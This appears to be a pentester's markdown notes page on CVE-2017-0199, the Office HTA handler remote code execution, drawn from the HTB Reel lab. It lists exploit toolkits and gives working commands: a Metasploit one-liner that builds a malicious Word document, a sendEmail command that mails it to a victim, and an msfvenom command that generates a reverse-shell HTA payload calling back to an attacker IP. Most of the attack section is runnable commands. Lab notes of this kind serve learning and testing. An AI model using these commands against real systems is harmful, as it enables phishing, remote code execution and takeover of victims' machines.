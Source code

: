 ```yaml
---
layout: post
title: HTA Handler RCE (CVE-2017-0199)
description: HTA Handler RCE (CVE-2017-0199)
summary: HTA Handler RCE (CVE-2017-0199)
tags: [rce,windows,foothold]
minute: 2
---
```

## Overview
1. Attacker sends document with OLE to victim
2. Victim clicks document (or download attachment from email)
3. Document sends GET request to attacker IP to download a malicious HTA file. Once this file is downloaded, victim machine executes it due to logic bug of `mshta.exe`.

## Exploits
* [CVE-2017-0199: In the Wild Attacks Leveraging HTA Handler | Mandiant](https://www.mandiant.com/resources/cve-2017-0199-hta-handler) - using RTF and Word documnets
* [CVE-2017-0199: New Malware Abuses PowerPoint Slides](https://www.trendmicro.com/en_sg/research/17/h/cve-2017-0199-new-malware-abuses-powerpoint-slide-show.html)

## Tools
* [CVE-2017-0199 Python exploit toolkit](https://github.com/bhdresh/CVE-2017-0199)

![](/spindel/assets/HTA%20Handler%20RCE%20(CVE-2017-0199)/Scenario1.jpg)

* Metasploit

```bash
# Generate document and run webserver
msfconsole -x "use windows/fileformat/office_word_hta; set srvhost tun0; set filename Procedures.doc; set lhost tun0; run"

# Send generated document to victim and wait for the reverse
# connection in metasploit
sendEmail -t nico@megabank.com -f hacker@kali.com -s reel:25 -u Procedures -o tls=no -a /home/kali/.msf4/local/Procedures.doc -m "See attachment for procedures"
```

## Troubleshooting
The python exploit in github didnt worked for me. When I tried to see in wireshark the network connections, I saw that victim did a `GET` request to attacker, but attacker didnt respond back. Probably there is something wrong on http server implemention?

From other writeups, they didnt use the http server that comes up with the exploit kit but instead they used their own http server.

## Alternatives
* You can generate HTA file via this methods

```bash
# msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f hta-psh -o msfv.hta

# via nishang
https://www.youtube.com/watch?v=ob9SgtFm6_g&t=794s
```

## References
* HTB Reel
* [CVE-2017-11826 Exploited in the Wild with Politically Themed RTF Document](https://www.fortinet.com/blog/threat-research/cve-2017-11826-exploited-in-the-wild-with-politically-themed-rtf-document)  - maybe also related as this is an RTF exploit
